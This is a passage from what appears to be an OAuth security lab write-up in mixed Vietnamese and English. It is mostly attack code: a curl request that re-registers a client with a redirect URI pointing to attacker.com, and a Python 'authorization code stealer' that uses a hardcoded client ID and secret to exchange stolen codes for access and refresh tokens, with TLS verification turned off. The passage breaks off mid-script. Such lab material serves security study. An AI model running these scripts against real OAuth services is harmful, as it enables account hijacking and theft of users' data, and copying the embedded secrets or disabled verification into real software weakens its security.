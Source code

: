 ```bash
# Attempt to re-register client với malicious redirect URIs
curl -X POST https://server-04.oauth.labs/oauth/register \
  -H "Authorization: Basic ZjIwZTdlMjMtMDM3Ni00YzE4LTllMDUtMWY4NjIyNjRhMjg4Ojh2TTllY1ZiN1BDOVBCcG9qMjN1d2ZXdHkweUpkVlZM" \
  -H "x-register-key: REGISTRATION_SECRET" \
  -H "Content-Type: application/json" \
  -d '{
    "client_name": "Malicious Client",
    "redirect_uris": ["https://attacker.com/callback"],
    "grant_types": ["authorization_code", "refresh_token"],
    "response_types": ["code"],
    "scope": "read:profile"
  }'
```

### 5. **Session Hijacking via Code Exchange**
**Tác động**: Impersonate legitimate users

```bash
# Steal authorization code từ victim's browser
# Exchange for tokens using compromised client secret
# Gain access to victim's profile and data
```

## 🛠️ **Exploitation Scripts**

### Script 1: Authorization Code Stealer
```python
# code_stealer.py
import requests
import base64

CLIENT_ID = "f20e7e23-0376-4c18-9e05-1f862264a288"
CLIENT_SECRET = "8vM9ecVb7PC9PBpoj23uwfWty0yJdVVL"
TOKEN_URL = "https://server-04.oauth.labs/oauth/token"

def exchange_stolen_code(authorization_code, redirect_uri="https://client-04.oauth.labs/callback"):
    """Exchange stolen authorization code for access token"""
    
    # Prepare client credentials
    credentials = f"{CLIENT_ID}:{CLIENT_SECRET}"
    b64_credentials = base64.b64encode(credentials.encode()).decode()
    
    headers = {
        "Authorization": f"Basic {b64_credentials}",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    
    data = {
        "grant_type": "authorization_code",
        "code": authorization_code,
        "redirect_uri": redirect_uri
    }
    
    response = requests.post(TOKEN_URL, headers=headers, data=data, verify=False)
    
    if response.status_code == 200:
        tokens = response.json()
        print(f"[+] Successfully exchanged code!")
        print(f"[+] Access Token: {tokens.get('access_token')}")
        print(f"[+] Refresh Token: {tokens.get('refresh_token')}")
        return tokens
    else:
```